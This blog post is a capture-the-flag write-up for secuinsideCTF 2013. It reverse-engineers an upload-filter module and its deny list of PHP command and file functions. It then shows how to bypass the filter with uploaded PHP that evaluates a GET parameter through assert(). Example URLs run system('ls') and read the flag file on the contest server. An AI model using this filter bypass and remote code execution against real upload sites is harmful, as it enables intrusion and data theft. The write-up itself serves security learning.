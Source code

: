 ```yaml
---
title: secuinsideCTF 2013 web secure revenge writeup
author: lovelydream
layout: post
permalink: /secuinsidectf-2013-web-secure-revenge-writeup/
categories:
  - Uncategorized
---
```

This not a hard one.

### **Bin Part**

mod_dontwebhack350.so is a php plugin which helps the upload site to filter files.

Opening it with IDA, filtering function *dontwebhack input filter()* is founded. The code below catches our sight:

    if ( check_extension_name(v12, dest, v15) == 1 )
        *(_DWORD *)v15 = 1;
    if ( *(_DWORD *)v15 )
        ap_log_cerror("mod_dontwebhack300.c", 141, 3, 0, v12, *((_DWORD *)v15 + 3), v9);
    if ( check_bad_php_string(src) == 1 )
    {
        ap_log_cerror("mod_dontwebhack300.c", 144, 3, 0, v12, "Try again.", v9);
        result = -1;
    }
    

As mentioned above, strings that the file contains and the file&#8217;s extension name are checked.

After a bit more exploration, it is safe to draw the conlusion that only these extension names *&#8220;.php&#8221; &#8220;.phtml&#8221; &#8220;.ht&#8221;* can be executed.

    .rodata:00000F75 aPhp            db 'php',0              ; DATA XREF: check_extension_name+31o
    .rodata:00000F79 aPhtml          db 'phtml',0            ; DATA XREF: check_extension_name:loc_ACFo
    .rodata:00000F7F a_ht            db '.ht',0              ; DATA XREF: check_extension_name:loc_AF8o
    

and these strings are forbiddened in the upload file:

    .data:00003060 off_3060        dd offset a?            ; DATA XREF: check_bad_php_string+17o
    .data:00003060                                         ; "&lt;?&quot;
    .data:00003064                 dd offset aKey          ; &quot;key&quot;
    .data:00003068                 dd offset aFlag         ; &quot;flag&quot;
    .data:0000306C                 dd offset aLocate       ; &quot;locate&quot;
    .data:00003070                 dd offset aInclude      ; &quot;include&quot;
    .data:00003074                 dd offset aRequire      ; &quot;require&quot;
    .data:00003078                 dd offset aFopen        ; &quot;fopen&quot;
    .data:0000307C                 dd offset aPassthru     ; &quot;passthru&quot;
    .data:00003080                 dd offset aFpassthru    ; &quot;fpassthru&quot;
    .data:00003084                 dd offset aSystem       ; &quot;system&quot;
    .data:00003088                 dd offset asc_F37       ; &quot;`&quot;
    .data:0000308C                 dd offset aExecl        ; &quot;execl&quot;
    .data:00003090                 dd offset aOpen         ; &quot;open&quot;
    .data:00003094                 dd offset aPopen        ; &quot;popen&quot;
    .data:00003098                 dd offset aEscapeshellcmd ; &quot;escapeshellcmd&quot;
    

### **Web Part**

Easy to find this php script in *upload.txt*:

    if($_SERVER[&#039;REQUEST_METHOD&#039;] == &quot;POST&quot;) 
    {
    
        $uploaddir = &#039;/var/www/uploads/&#039; . md5(crypt($_SERVER[&quot;REMOTE_ADDR&quot;], $_POST[&#039;code&#039;] )) . &#039;/&#039;;
    
        if(is_dir($uploaddir) == false)
            mkdir($uploaddir);
        if(strstr($_FILES[&#039;data&#039;][&#039;name&#039;], &quot;./&quot;) != FALSE) {
        exit;
        }
    
    
        if(strstr($_FILES[&#039;data&#039;][&#039;name&#039;], &quot;../&quot;) != FALSE) {
            exit;
        }
        $uploadfile = $uploaddir . basename($_FILES[&#039;data&#039;][&#039;name&#039;]);
        if (move_uploaded_file($_FILES[&#039;data&#039;][&#039;tmp_name&#039;], $uploadfile)) {
                echo &quot;alert('Success'); document.href='./';\n";
        } else {
                print "alert('failed'); document.href='./';";
        }
    
    }
    else { ...
    

We find that the file folder name is produced by `md5(crypt($_SERVER["REMOTE_ADDR"], $_POST['code'] ))`.

It&#8217;s time to upload some php scripts.Considering the fact that special functions are banned as mentioned in the bin part, if we want to execute some commands, we can use *assert()*.

Such php file like this is to uploaded:

Test it.To calculate the folder name and give the get data:

    http://59.9.131.155:9852/uploads/2438fc3567fb30f9e4157e19fd5f8f1e/example.php?name=system('ls%20../../../')
    

Files and folders are listed.The next step is to find out the way to read the key file.*fopen()* and *die()* is to be used. *cat* command also takes effect.

To see that all the functions which are used to read files in php script are banned by .so.

**So the *get* variable is used due to no filtering on url.**

    http://59.9.131.155:9852/uploads/2438fc3567fb30f9e4157e19fd5f8f1e/example.php?name=die(fread(fopen(%22/home/dwh_revenge/
    flags%22,%22r%22),filesize(%22/home/dwh_revenge/flags%22)))
    

Bingo!